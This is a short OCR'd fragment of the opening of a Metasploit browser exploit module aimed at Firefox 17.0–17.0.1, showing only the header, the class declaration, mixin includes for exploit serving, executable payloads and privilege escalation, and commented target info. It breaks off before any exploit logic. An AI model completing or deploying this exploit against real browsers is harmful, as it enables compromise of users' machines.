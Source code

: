 



	
##


# This module requires Metasploit: https://metasploit.com/download


# Current source: https://github.com/rapid7/metasploit-framework


##





class MetasploitModule < Msf::Exploit::Remote


Rank = ExcellentRanking





include Msf::Exploit::Remote::BrowserExploitServer


include Msf::Exploit::EXE


# include Msf::Exploit::Remote::BrowserAutopwn


include Msf::Exploit::Remote::FirefoxPrivilegeEscalation





# autopwn_info({


# :ua_name => HttpClients::FF,


# :ua_minver => "17.0",


# :ua_maxver => "17.0.1",


# :javascript => true,
